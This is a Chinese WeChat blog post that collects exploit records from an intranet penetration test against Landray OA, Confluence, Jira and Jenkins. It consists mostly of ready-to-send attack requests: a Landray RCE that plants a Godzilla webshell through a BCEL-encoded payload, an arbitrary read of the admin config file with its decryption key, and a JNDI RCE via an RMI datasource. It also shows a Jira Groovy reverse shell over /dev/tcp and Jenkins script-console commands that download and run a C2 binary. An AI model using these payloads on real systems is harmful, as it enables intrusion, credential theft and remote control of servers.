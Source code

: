 #  漏洞利用记录(蓝凌&Confluence&Jira&Jenkins)

原创 carrypan  [ 安全艺术 ](javascript:void\(0\);)

**安全艺术** ![]()

微信号 AnQuanYiShu2022

功能介绍 安全培训、渗透测试欢迎来聊

____

___发表于_

收录于合集

最近测试攻入内网，碰到了很多漏洞，有些还需要去查找poc利用，比较浪费时间，还是简单记录下，方便后续查找吧，也有很多都是直接工具集成利用的，懒得整理了，有需要的可以公众号私信获取。

 **1、蓝凌OA前台sysSearchMain.do远程命令执行**

直接写入哥斯拉马

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 6882Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cache-Control: no-cacheContent-Type: application/x-www-form-urlencodedPragma: no-cacheUpgrade-Insecure-Requests: 1Accept-Encoding: gzip  
    var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=<java><void+class%3d"com.sun.org.apache.bcel.internal.util.ClassLoader"><void+method%3d"loadClass"><string>$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$b5X$5bs$db$c6$V$3e$b4$rSV$e88$91$e3$5b$92$sM$da4$ce$c5$WH$8aQ$Y$3bI$F$8a$A$c1$L$q$R$q$40$mmS$dc$E$80$c4$z$E$u$Sl$7fNg$fa$9c$X$b9S$cf$f4$H$f4$P$f5$ad$d3$b3$e0M$92e$3b$cd$b4$f6$I$Ev$cf$9e$3d$e7$3b$d7$dd$7f$fe$fb$ef$ff$A$80$o$fcy$T$de$87$c7Yx$b2$JW$e0$f1$s$7c$N$df$90$c7$b7$h$f0$dbM$d8$Dz$T$w$b0$bf$JU$606$81$85$da$spP$cfB$p$L$cdM$b8$B$8f7$a0$b5$J$f7$80$t$l$H$hpH$7e$8f6$n$H$ed$N$Q$b2$d0$d9$84$3b$84$7b$97$fc$8a$h$m$R$e2$k$99$97$c9C$c9$c2wY$f8$5d$G$ae$3dq$7c$t$fe$s$DW$l$7c$of$60$ad$S$Yf$Gn6$j$df$e4G$9ef$O$3b$aa$e6$e2$c8V3$d0UWT$87$O$f9$9e$P$ae$c5$b6$T$919F$8d$e2z$U$f8U$dd$O$e8J$b5$f98$D$9b$d5$89n$86$b1$T$f8H$b1$e6$a9$8e$9f$81$3b$P$bek$f6$d5$Tu$dbU$7dk$5b$88$87$8eo$3dN$b7U$87$W$92$dd$bad$3a$D$hOtw$n$a4$ee$o$d9$9bg$a8$w$ae$gEH$b4$W$aa$b1MD$b9$84A$$$c4$97X$g$3a$b19$yd$e0$f6$8c$c6$J$b6$PW$e3H$b6$k$d9$a6$ebf$mk$98$3a$a20$cc$c0$bdf4$f2$b7$3d$t$d2$b7$e9$3d$a1$fa$c5$ce$fel$86$f0$9c$R$cd$f6$c8$c0$N$nV$f5AK$NSd$Q$5c$E$40$IFC$ddd$i$82$d4$ed$8b$I$3d$o2$e4$e0$97$f0A$G$de$b88$99$85$df$e7$e0$P$f0$7d$O$fe$I$wZC$8b$ecG$9c$8fR$86C$T$9fY$d0r$a0$83$91$F3$H$c7$60e$c1$ce$81$D$fd$y$Mr$e0$82$97$F$3f$H$B$84$I$e8$r$9af$e0$eeE$8c$e8$91$e3$a6$Kg$a5$w$fd$90$e3$99$i$fc$A$c3$iD$Q$p$dan$609$fe$f7$ae$T$c5$89$Z$3d$eaGa$OF$Q$S$d9O27$febJ$dd$_$ebB$d5$ea$W$db$89$w$95$7c$aef$f7$P$Fn$wO$V$b7$c5r$3br$c7$ed$b7$3a$dd$a4$d5o$db$5c$3f$3aCG$dbz$b1U$e6$7c$d7$d5$Tn$97cxJ$f7$dc$91$92$d0$b1$b2$df$zk$d2Q$be1$a3$Z$9al$x$3cH$e8$be$c62S$3d$a1e$8e$Vw$MV$i$v$b5$96uT$98$m$N$df$d2$K$cc$40$e9$d5w$f5$9a$e8h$ac$db$e7$Y$x8$3f$c7Y$a6$e3$ee$eaEq$8c$ef$81$e9$Mv$8f$7bt$5e$f6$s$a1$9c$d0$fbs$de$ed$G$5b$_$no$ad$t$d0$7d$99$d0$7b$oe$f4$ea$p$ae$c6$e7uVL$9a$5e$dbU$88$9c$5d$3e$92$7b$fc$b4$c1$f2N$b3$b27nV$I$7d$vRP7$83$b5$c2$83$oe$9d$e1$ef$98$bd$b6$x$e5$v$cb$ac$d8$cbw$3d$998Z$a1$8ck$98$R$c7R$a1$99$d0$94$ee$bb$bb$aa$c7$U$e4$9e5$92$8b$f5$92$5ek$9f4$H$7c$a8$b3$b6$ab$3bt$ffP$Km$c3cv$9a$k$9f$98$3d$9a$d2$92$d2$be$da$a3$D$d4i$a4$UDJ$90JS$83eFr$a1$hp$D$86$e9$s$5cxPh$8d$Q$f3$d0$a8$d8$f1$e1$b4$faE$cb$99$8c$94$9en$3d$b7$8f$cf$8f$V$a95$ea$W$c4$3e$d1$5b$u$88$a5n$91v$e5$c4$de$91$93$92$af$f4$da$V$o$bb$9eXa$b3R$a7$dbb$cbi$I$83$VFlk$a4$b0e$W$f7$b2$b5$8a$3dmt$o$ebX$e2m$83$e5$D$aeb3$s$cb$bb$b8O$a8$Vv$yE8$83$z$5b$cak$ecx$97$ab$e5$cb$e8$X$L$cc$88$k$94$w$b5V$3e$c3$e6$H$bc$60w$8cZ$3d$d4$3c$j$f1$hXf$7e$e97$89$d2$3b$b2$O$FzdH$93$e8$A$d7$98$C$3d$c3R$uM$V$J$ed$e7$b9$94$v$94x$F$ed$sK$86$dbf$5d$d4$89$a7$Q$fb$5dM$d8$xs$y$c1$b6$3a$d2Q$7f$94$x4j$83QG$S$a7z$81$f1$95n$3bD$7c$a7F$r$c5$a1$ae$f9$3c$rK$a5$be$oXN$a7$7b$94$e7$d0$9f4$a1$84$3e$d2F$7d$bb$81$fe$i$5e$a9$8fL$9b$de$c4$d5$3c$83R$xV$d8$e8$c4K$99$97$f6$QJ$b1$dck$H$cdA$3dT$uw$84$be$e8$T$7fm$Jc$L$f9$PT$94$5b$_$k$F$88$3b$ce$95$XX$E$ad$8e$i6$fd$f6$89$d8$a3$d1$bf$eb$fb$e8$9bn$a3$82$3eN$fc$b8$d7$ee$ab$95$bd$a0$dd$b3$fb$K$fa$8c$w$95$R$f3n$c8$d5$e2$f2$ca$bf$eb$ae$b1$8f$f6$S$e8$b1$n$d5$p$82$bb$5e$q$ba$90XZb$ec$Q$be$7c$bf$cdh$k$7f$a2$a0$9e$b2$efR$8a$Y$h$i$5b$9f6$E$e4$5d$ab$9f$Y$c5$96un$afZ$bc$88$af$f9$fa$a3$ddU$kPl$ad$s$ba$dc$3eei$be$Yi$fb1$c6$A$da$b5P$b7$f5B$b7$c0$ef$e7$e7kK$9eV$ac$l$c8R$k$f5$aa$ff$m$f7$U$bb$e9$8b$c8$7f$3c$3a$f2$98$a9$d2$91$vb$83N$a1$fe$D$da$9a$e2$aa$o$c6$409$8d$7b$c4w$b1o$g$phSJe$cb$D$e4Cl4$d7EL8g$3c$93$a12$m$f1R$d0$K$b1$8b$f9$60$sGe9$b7$8b$f1$X$ZR$X$f9$ee$F$L$3d$g$dd$e5$7e$e9$k$b3$dc$d3B$3b$a5$7e$80$3e$d7$O$b4$c2Q$c0ys$3a$b1$7d$b2$c4$80$ec$eb$89E$ae$3a$cb$vi$9eX$e5$M$a4Oy$a1m$ce$c8$b5$d2$_$c2$f8q$8d$84$3e$94$bd$d0$95$8bm$92$bbv$89$3d$b8$g$95$e6$n$b9$c0Pr$c1$b2p$cd$8e$5c$Q$c7h$d3$T$cd$a1$5d$b4$d7$$$faO$89$abE$96$3c$c7$f0p$9e$d7$9a$9er$a2$P0$8e$r$cc$p$3e$9f$d7$9cR$ac$f6$f8$3e$fa$r$dd$a5$Q$8f$d5$fe$O$89$f3W$e1N$f4$3b$9b$9b$c8$9a$ff$J$8e$c2R$ff$99$9f$e4$d1$X$89$3es$bf$c4$3c$99$eaC$b0h$a2$P$h$5ey$a8$I$f6$d2$e6$Y$93i$ec$z$e4_$60$8f$beZ$c6$f8$c4$9c$f0$82$fc$d5$e1$d2$f89$eea$dc$d4$c4$E$f1$y$c8$d2$q$aft$5e$QC$ab$ba$b2$88$a1$w$ee$97$c6$d0$w$bf$fdw1$b4$8c$bd$ffW$M$b1m$f7$t$c6$d0$5c$97$9f$XC$L$3d$g$d2r$bfW$d8$7eN$f7$C$db$_$f0$7c$81$ed$H$LY$7f$b6$ed$F$c4v$5e_8$f6$a5$YO$Nig$a4I$ee$U$ebg$e5H$e4$99$95$dd$JV$83$5d$aeZvT$P$ebM$85$5e$caE$ec$b8$88$c7$a6$87$faa$j$m$7e$84$3e$9b$e6$f4$b3$f6$5e$f5$x$eeJ$_$cfp$8dy$$A$fa$8b$f6Z$d0U$MI$f1H$fc$$p$98$f7K$b3$fc$b1$cc$f9$a5E$dfUF$3b$84$9a$af$9c$a8$Y$bf$b8$be$af$V$b0$b6$zs$d7$5c$Pf$R$7fi$bezY$fdIH$fe9$ee$e5$b1$G$b6$b16$ef$y$f2$B$eaG$b9$87$fd$b1Kr$T$fa$f0$on$G$c8$c7$3e$94$e6xW$X$3e$60$e3z$sO$eax$aa7$83$3d$a3$c7$c4$K$a9$bb$8e$3dN1$409$U$ec$r$e4N$7e$a7$91$d6$e7$w$fa$N$c1$Q$f1$ec$c4$a1$e2$ec$FX$f3$b1$ce$93$bc$98$fa$gm$d4$88$P$d5$f3$a4$96s$3em$9b$d2$e4D$96$8e0$d7Q$e5$99$Pc$ff$b2Z3$7d$d9$9a$e6$ccG$e5F$ad$j$a8$bd$d6e$be$3d$f3$j$8a$d0$T$b9$b17$QJ$ed$b9$ac$a4O$u$x$d2$E$f7$88W$ba$fa$3c$da$98$a1H$fd$971$86I$l$a2$b3LB$fc$O$f1J$b0$a7$8eR$9dQ$f7y_$Rb$af$98$f6$pG$bdz$o$f7$dcC$a3$d7$k$e3$l$e9$n$5cYB$9f$c3$f1NQ$a4$O$a5T$deY$7e$f0$5c$ec$3fS$h$d0$ba_$b7$cdn9o$60$8ff$a4$fe$n$da$9a$80$bd$$$b5$f4a$efPX$f4$dd$ad$f0$tc$8au$ed$f9$fa$Q$7bMO$9c$Y$S$T$e9$89m$e3$de$u$ef$R$f6$b2$f2$88$60$80$b9vJ$ce$H$88$e5$beV$uQJ$cf$a6f$fd$U$3f$c6$ef$a92$c3$b5Gz$3e$d2$3f$n$9e$c5$f4$5d$b0$c9$f9$C$e3It$f4E$cd$d9$df$8bH$ff$94$ee$e9$af$ea2$895$d4q$aa$b3e$ec$J$bb$a9$dd$c4$o$f6$85$88$_$89$x$p$7d$c7$kh$k$abm$ec$HIL4jV$b0$c0$92$f0$3b$o$f9$ad$cb$q$e8$97$r$5c$Xq$88$D$fay8$ef$9d_$c9$9f$9c$85$d0$dey$d9_$c4$a45$e1$9d$c1$ec$8c$f1$92$fe$faX$e8$7e$a6$8f$bf$fe$gO$de$97$ld$f1$ecy$f1$y$98$831L$f00$dc$ed0$P$bf$q$87$bc$q$HS8$c9$c1$9f$c8Q$f5$d6$8a$7cy$be$3f$c7$e4$40$eb$9bz$7cn$a8c$PM$d5$c03$b2$3e$g$OM$3f$5e$7c$bf$f5$e0$93$e6E$w$3cY$df$b6$cc$b8$S$e0iw$S$a7$87$fbf$a0$a6$92$de$3fG$7ef$8a$ac$b9t$o$D$d7$5d$7cIG2$f0$d1$83K$ee$k$$$b9I$b8ya$I$95F$89$O$87A$8c$8a$a1$ba$fb$c1$ec2$e3$c3$85$3c$91$89$8a9q$b2$7d$91$G$99$bd$f7r$K$E$r$d5$d60g$97$F$Zx$f79$ae$abY$e4w$efEs$Zx$N9$91K$9a$b9I$W$7c$7c3$de$ee$b6$c9$8dL$ee$ec7$9e$f5$89V$e9$a5$c9yC$y$afM$d6$a3$d0u$d0$94$l_$G$dc$a575$d7$d404$7d4$ed$c3W$60$7d$ee$da$81$5c$f1$c4$c1$e2$s$e5$f6eK$c5$e5$85$L$3d$3a$3e$s$96$bds$a9Pt$G$ee$3e$f8$8e$be$9cC6$bd$Gr$R$9cu$dd$N$o$T$3e$80$x$f0$3e$90$7fW$nC$aeb$f0$fb$c3$f4n$$$83$ff$B$d6$3f$7d$K$99$l$f1$e5$K$fc$K$9f$e4$9e$O$Ha$N$ae$c1$af$f1$z7$p$82$8f$e07$f8$fb1$fe$ad$e1$c8$7bp$j$k$c0$tsV$bb$f8K$a8$ae$3f$83$x$f2S$b8$w$5ddw$j6$f0m$c5$ee$3a$7c$K$9f$9dc$b7$B$9f$a3d$Z$c2$$s$V$b7$bb$863$f6$df$60$ed$U$d6$b7$ae$9dB$b6$f1$e9$vl$9c$c2$f5S$d8$3c$85$d7$9a$cf$m$t$3f$83$h$b8$d9$eb$9fm$dd$3c$857$ae$WN$e1$cd$ad$z$7c$9c$c2$ad$a7$f0Vk$eb6$ff$M$ee$m$c1$dd$af$d6$9e$c1$3d$f9$fe$da$c3S$b8$bf$f5$f6Sx$e7$ab$f5$cf$ef$af$9f$c2$bb$9f$9f$c2$_$fe$Kk$8d$lS$99t8F9$ae$a6R$3f$82$d7$f0$f9$3aJ$7b$T$de$867$e0$J$bc$J$df$c2$W$d4$e0$W$c8$f0$W$7c$P$b7$91$fe$$$ae$b8$D$W$dcO5$fb$Ge$ce$81$E$Pq5$e0$w$O$b6$81B$ceOP$cb$3c$U$Q$87o$91$ae$88cW$91$cf$3b$b0$D$r$d4$5dF$5c$be$c0$b1u$E$91$e0r$e5_p$9c$85$_$R$F$u$a7$m$7e$f5$l$fci$9akK$V$A$A</string><void+method%3d"newInstance"></void></void></void></java>

访问路径/login_listyes.jsp，密码：yes

![](https://gitee.com/fuli009/images/raw/master/public/20230715093333.png)

 **2、 蓝凌OA前台任意文件读取**

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0Content-Length: 60Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Cache-Control: no-cacheContent-Type: application/x-www-form-urlencodedPragma: no-cacheUpgrade-Insecure-Requests: 1Accept-Encoding: gzip  
    var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

![](https://gitee.com/fuli009/images/raw/master/public/20230715093334.png)

解密密码：kmssAdminKey  

![](https://gitee.com/fuli009/images/raw/master/public/20230715093335.png)

后台地址：/admin.do

![](https://gitee.com/fuli009/images/raw/master/public/20230715093336.png)

 **3、蓝凌OA后台JNDI远程命令执行**

###

登录后台

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    POST /admin.do HTTP/1.1Host: User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0Accept: */*Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflateConnection: closeCookie: Content-Type: application/x-www-form-urlencodedContent-Length: 69  
    method=testDbConn&datasource=rmi://******:1099/remoteExploit7

![](https://gitee.com/fuli009/images/raw/master/public/20230715093337.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230715093339.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230715093340.png)

 **4、Confluence写入内存马**

直接上工具，利用CVE-2022-26134写入内存马 **  
**

![](https://gitee.com/fuli009/images/raw/master/public/20230715093341.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230715093342.png)

在请求配置中添加如下内容：  

![](https://gitee.com/fuli009/images/raw/master/public/20230715093343.png)

利用后渗透插件，一键添加Confluence管理员账号：  

![](https://gitee.com/fuli009/images/raw/master/public/20230715093344.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230715093345.png)

 **5、Jira getshell**

查看版本信息，路径：/secure/admin/ViewSystemInfo.jspa

![](https://gitee.com/fuli009/images/raw/master/public/20230715093347.png)

下载对应插件版本

  * 

    
    
    https://marketplace.atlassian.com/apps/1218755/mygroovy/version-history

![](https://gitee.com/fuli009/images/raw/master/public/20230715093348.png)

进入插件管理，上传插件，路径：/plugins/servlet/upm

![](https://gitee.com/fuli009/images/raw/master/public/20230715093349.png)

上传后访问，/secure/JMWEGroovyScriptTester.jspa，执行如下命令

  *   *   * 

    
    
    def r = Runtime.getRuntime()def p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ip/port;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()

![](https://gitee.com/fuli009/images/raw/master/public/20230715093350.png)

![](https://gitee.com/fuli009/images/raw/master/public/20230715093352.png)

 **6、Jenkins getshell**

路径：/jenkins/script

![](https://gitee.com/fuli009/images/raw/master/public/20230715093353.png)

  * 

    
    
    println "wget http://ip/c2".execute().text

![](https://gitee.com/fuli009/images/raw/master/public/20230715093354.png)

  * 

    
    
    println "ls -lt".execute().text

![](https://gitee.com/fuli009/images/raw/master/public/20230715093355.png)

  * 

    
    
    println "chmod +x c2".execute().text

![](https://gitee.com/fuli009/images/raw/master/public/20230715093356.png)

  * 

    
    
    println "./c2".execute().text

执行完直接上线cs

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

